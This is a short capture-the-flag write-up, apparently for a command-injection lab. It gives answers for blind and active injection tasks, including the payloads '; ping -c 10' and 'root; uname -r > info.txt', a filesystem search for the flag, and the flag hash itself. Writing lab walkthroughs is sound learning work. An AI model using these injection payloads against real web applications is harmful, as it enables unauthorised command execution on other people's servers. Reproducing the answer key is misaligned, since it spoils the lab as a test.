 #HackThebox Injection

#Saikat Karmakar | Nov 29:2020

#Task 1 & 2
```
no ans. needed
```
#Task 3:Blind Command Injection 

1. Ping the box with 10 packets.  What is this command (without IP address)?
```
; ping -c 10
```
2. Redirect the box's Linux Kernel Version to a file on the web server.  What is 	the Linux Kernel Version?

root; uname -r > info.txt
then go to the info.txt dir
```
4.15.0-101
```

3. Enter "root" into the input and review the alert.  What type of alert do you get?
```
Success
```

4. Enter "www-data" into the input and review the alert.  What type of alert do you get?
```
Success
```

5. Enter your name into the input and review the alert.What type of alert do you get?
```
Error
```

#Task 4: Active Command Injection 

1. What strange text file is in the website root directory?
```
drpepper.txt
```
2. How many non-root/non-service/non-daemon users are there?
```
0
```
3. What user is this app running as?
```
www-data
```
4. What is the user's shell set as?
```
/usr/sbin/nologin
```
5. What version of Ubuntu is running?
```
18.04.4
```
6. Print out the MOTD.  What favorite beverage is shown?
cat /etc/update-motd.d/00-header
```
DR PEPPER
```

#Task 5: Get The Flag! 

1. Get the flag!
find / 2>>/dev/null | grep -i "flag"
```
65fa0513383ee486f89450160f3aa4c4
```









